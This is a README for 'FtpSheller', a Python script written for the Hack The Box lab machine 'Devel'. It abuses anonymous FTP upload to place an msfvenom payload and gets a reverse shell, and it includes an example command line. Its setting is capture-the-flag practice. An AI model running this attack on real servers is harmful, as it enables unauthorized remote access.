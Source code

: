 # FtpSheller

**What is this?**

I made this script for fun for getting a shell on one of the machines at www.hackthebox.eu called Devel.
It'll check for anonymous login on the FTP server. If that's allowed it'll craft a payload and store it on the FTP server.
Then it'll trigger the payload, returning a shell to you.

There's still a bunch of stuff I'd like to do, so consider this a beta release.

Hit me up on NetSecFocus' slack if you have any suggestions! I'd love to hear them.

**Prerequisites:**

- Python 2.7
- Curl
- Msfvenom


**How to:**

Download nc.py and FtpSheller.py.
Run it by specifying the RHOST, LHOST, LPORT and PayloadType, e.g.:

python FtpSheller.py --rhost 10.10.10.5 --lhost *your IP* --lport 4444 --payloadType aspx

If all goes well you'll be given a reverse shell!

**Screenshot of how it looks:**
https://imgur.com/a/3oHpp
